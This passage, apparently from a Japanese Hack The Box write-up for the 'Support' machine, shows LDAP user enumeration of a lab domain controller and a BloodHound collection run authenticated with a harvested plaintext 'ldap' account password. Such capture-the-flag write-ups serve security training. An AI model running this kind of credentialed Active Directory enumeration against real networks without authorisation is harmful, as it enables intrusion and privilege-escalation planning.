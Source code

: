 ```bash
LDAP        10.129.230.181  389    DC               krbtgt                        2022-05-28 04:03:43 0        Key Distribution Center Service Account                     
LDAP        10.129.230.181  389    DC               ldap                          2022-05-28 04:11:46 0                                                                    
LDAP        10.129.230.181  389    DC               support                       2022-05-28 04:12:00 0                                                                    
LDAP        10.129.230.181  389    DC               smith.rosario                 2022-05-28 04:12:19 0                                                                    
LDAP        10.129.230.181  389    DC               hernandez.stanley             2022-05-28 04:12:34 0                                                                    
LDAP        10.129.230.181  389    DC               wilson.shelby                 2022-05-28 04:12:50 0                                                                    
LDAP        10.129.230.181  389    DC               anderson.damian               2022-05-28 04:13:05 0                                                                    
LDAP        10.129.230.181  389    DC               thomas.raphael                2022-05-28 04:13:21 0                                                                    
LDAP        10.129.230.181  389    DC               levine.leopoldo               2022-05-28 04:13:37 0                                                                    
LDAP        10.129.230.181  389    DC               raven.clifton                 2022-05-28 04:13:53 0                                                                    
LDAP        10.129.230.181  389    DC               bardot.mary                   2022-05-28 04:14:08 0                                                                    
LDAP        10.129.230.181  389    DC               cromwell.gerard               2022-05-28 04:14:24 0                                                                    
LDAP        10.129.230.181  389    DC               monroe.david                  2022-05-28 04:14:39 0                                                                    
LDAP        10.129.230.181  389    DC               west.laura                    2022-05-28 04:14:55 0                                                                    
LDAP        10.129.230.181  389    DC               langley.lucy                  2022-05-28 04:15:10 0                                                                    
LDAP        10.129.230.181  389    DC               daughtler.mabel               2022-05-28 04:15:26 0                                                                    
LDAP        10.129.230.181  389    DC               stoll.rachelle                2022-05-28 04:15:42 0                                                                    
LDAP        10.129.230.181  389    DC               ford.victoria                 2022-05-28 04:15:58 0                                                                    
```

BloodHoundも実行する
- AS-REP Roastingと、Kerberos攻撃できるユーザーはいない
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Support]
└─$ bloodhound-python -c All -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -ns 10.129.230.181 -op support_htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.support.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 21 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 29S
INFO: Compressing output into 20250729201520_bloodhound.zip
```